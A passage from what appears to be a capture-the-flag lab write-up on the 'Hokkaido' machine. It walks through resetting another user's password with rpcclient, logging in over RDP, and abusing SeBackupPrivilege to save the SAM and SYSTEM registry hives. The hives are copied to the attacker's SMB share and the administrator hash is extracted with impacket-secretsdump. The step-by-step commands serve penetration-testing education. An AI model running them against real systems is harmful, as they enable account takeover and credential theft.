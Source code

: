 Apparently this means we can change certain user's passwords, inclduing `molly.smith` who we've already discovered is able to RDP into the machine. As with **Nagoya**, this is done with rpcclient. We log in with `hazel.green`, and run: `setuserinfo2 MOLLY.SMITH 23 'pizzaparty123'` to change her password. 

At that point, we can rdp in with: `xfreerdp /u:molly.smith /p:pizzaparty123 /v:192.168.157.40 /drive:/home/pop/Desktop/server,kali`. Crucially, when we log in using the GUI, we can run either powershell or cmd as an administrator, simply by inputting molly.smith's credentials again. This can help us run more things. That said, we try to download a couple of scripts and Windows Defender immediately removes them, so we might need to get more creative. When we open powershell or the command prompt as administrator, we can run `whoami /priv` and get more privileges than we do if we open without being administrator. 

![Hokkaido10.png](/assets/images/Hokkaido/Hokkaido10.png){: .center-aligned width="600px"}

A big one here is `SeBackupPrivilege`. We run create a `C:\Temp` directory and run`reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\Temp\system` and then copy them back to our own machine. I did this using `impacket-smbserver` like so:
From kali:
- `sudo impacket-smbserver -smb2support share . -username "pop" -password "party1"`
From the target: 
- `net use \\$kaliIP\share /user:pop party1`
- `copy C:\Temp\SAM \\$kaliIP\share`
- `copy C:\Temp\System \\$kaliIP\share`

After that, we can run secretsdump to grab the hash of the administrator user. The full command is:`impacket-secretsdump -system System -sam SAM local`
![Hokkaido11.png](/assets/images/Hokkaido/Hokkaido11.png){: .center-aligned width="600px"}
